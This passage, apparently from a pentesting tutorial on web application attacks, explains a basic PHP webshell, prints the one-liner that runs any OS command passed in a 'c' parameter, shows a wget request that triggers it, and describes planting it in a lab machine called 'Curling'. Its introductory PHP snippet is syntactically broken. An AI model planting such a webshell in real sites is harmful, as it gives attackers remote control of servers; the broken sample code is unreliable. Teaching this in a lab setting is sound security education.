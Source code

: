 ```php
$text = "Hello"
echo $text
define("MESSAGE", "Hello there")
echo MESSAGE
function SayHello($name) {
	echo MESSAGE $name;
}
SayHello("Andrew");
```

<br>

But a webshell doesn't need to be complex to work.  A PHP webshell in its most
basic form would be:

```html
<?php system($_GET['c']);?>
```

<br>

If a page contains this code, commands can be run on the server hosting it
by sending web requests that have the parameter `c` set to an
operating system command.

```
wget http://webpage.com/index.php?c=<command>
```

### Deployment

Using our previous example with the **Curling** machine, after accessing the
console it is possible to add arbitrary code to any webpage on the site. Adding
a small one-liner is all that is required to get code execution:

![](images/Web%20Application%20Attack%20Tactics/image049.png)<br><br>

When a command is provided via the `c` parameter the results are returned and
the rest of the page is loaded normally:

![](images/Web%20Application%20Attack%20Tactics/image050.png)<br><br>
